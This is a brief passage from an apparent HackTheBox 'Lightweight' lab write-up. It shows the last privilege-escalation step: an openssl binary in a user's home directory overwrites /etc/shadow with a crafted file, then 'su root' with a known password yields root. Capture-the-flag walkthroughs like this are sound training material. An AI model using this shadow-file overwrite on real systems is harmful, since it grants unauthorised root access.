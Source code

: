 ![](/assets/img/lightweight-hackthebox/shadow-created-30.png)

Replacing new shadow file in `/etc/shadow` using *openssl commands* --> **/home/ldapuser1/openssl enc -in shadow -out /etc/shadow**

Using `su root` and enter password i.e `password`.

___
![](/assets/img/lightweight-hackthebox/root-31.png)

Got Root.